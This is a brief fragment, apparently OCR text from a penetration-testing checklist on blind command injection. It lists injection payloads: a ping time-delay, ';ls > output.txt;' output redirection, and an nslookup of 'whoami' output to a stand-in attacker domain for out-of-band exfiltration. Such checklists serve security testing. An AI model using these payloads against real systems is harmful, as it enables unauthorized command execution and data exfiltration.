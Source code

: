 - [ ] Use time delay or Out-Of-Band connections `& ping -c 10 127.0.0.1 &`
- [ ] Use output redirection if you can't see the output. `;ls > output.txt;`
- [ ] ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` exfiltration or use http://reverse_server/?o=output
